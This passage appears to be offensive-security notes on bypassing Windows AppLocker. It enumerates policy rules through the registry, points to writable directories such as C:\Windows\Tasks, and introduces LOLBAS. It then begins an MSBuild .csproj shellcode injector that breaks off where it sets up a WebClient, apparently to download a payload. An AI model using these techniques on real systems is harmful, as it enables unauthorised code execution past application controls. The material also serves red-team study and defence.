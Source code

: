 ### Via local registry

We can query the registry at `HKLM:Software\Policies\Microsoft\Windows\SrpV2` to obtain the information.

```powershell
Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2"
```

> **Note**: We can see that DLL enforcement is not commonly enabled.

```powershell
Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe"
```

## Writeable Paths

The default rules allow execution on `C:\Program Files` and `C:\Windows` including subdirectories. So moving laterally to a protected machine via psexec is trivial since the service executable is written into `C:\Windows`.

But, if you're on a protected machine as a standard user, there are several directories inside `C:\Windows` where we can write, one for example is `C:\Windows\Tasks`. This would allow us to copy an executable into this directory and run it.

> **Note**: When enumerating the rules, we can find some additional weak rules that sysadmins have set. An example is:
>
> `<FilePathCondition Path="*\AppV\*"/>`


## LOLBAS

**Living Off The Land Binaries, Scripts and Libraries (LOLBAS)** are executables and scripts thant come as part of Windows but allow for arbitrary code execution. They allow us to bypass AppLocker, because they're allowed to execute under the normal criteia and may also be digitally signed by Microsoft.

* [https://lolbas-project.github.io/](https://lolbas-project.github.io/)

And example is `MSBuild`, if is not blocked, it can be used to execute arbitrary C# code from a `.csproj` file. This could be turned into a basic shellcode injector.

```c#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Net;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    byte[] shellcode;
                    using (var client = new WebClient())
```